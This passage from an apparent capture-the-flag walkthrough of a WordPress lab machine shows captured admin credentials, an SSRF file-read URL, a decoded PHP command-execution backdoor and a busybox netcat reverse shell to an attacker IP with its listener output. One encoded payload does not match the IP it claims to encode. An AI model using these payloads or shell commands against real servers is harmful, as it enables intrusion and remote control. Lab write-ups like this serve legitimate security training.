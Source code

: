     Username: wpuser

    Password: kbLSF2Vop#lw3rjDZ629*Z%G

WordPress Administrator Login

Using the obtained credentials, a login to the WordPress administration panel at www.smol.thm/wp-login.php was attempted and successful.
Discovering and Decoding the Backdoor

While exploring the WordPress admin area, a file named hello.php was identified. The SSRF vulnerability was reused to read its content:

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php

The file contained a base64 encoded string:

CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=

Decoding this string revealed a simple PHP backdoor:

if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }

Which, after resolving the octal and hexadecimal escape sequences, translates to:

if (isset($_GET["cmd"])) { system($_GET["cmd"]); }

This backdoor allows for arbitrary command execution on the server by passing commands via the cmd GET parameter.

# 3-gaining-a-reverse-shell

With the command execution vulnerability confirmed, the next objective was to establish a persistent and interactive reverse shell on the target system.
Crafting and Executing the Reverse Shell Payload

A busybox nc reverse shell payload was constructed. To ensure proper execution through the URL, the payload was base64 encoded.

Reverse Shell Payload (Encoded for URL):

echo "busybox nc 10.6.48.108 4445 -e sh" | base64 <- Change your attckers IP
Output: YnVzeWJveCBuYyAxMC42LjQ4LjEwOCA0NDQ1IC1lIHNo

The encoded payload was then executed via the cmd parameter in the URL:

http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC42LjQ0LjEwOCA0NDQ1IC1lIHNo | base64 -d | bash

Setting up the Netcat Listener

Prior to executing the payload, a Netcat listener was set up on the attacking machine (10.6.48.108) on port 4445 to receive the incoming connection.

nc -lvnp 4445

Upon executing the URL, the Netcat listener successfully caught the shell:

listening on [any] 4445 ...
connect to [10.6.48.108] from (UNKNOWN) [10.10.109.27] 38294
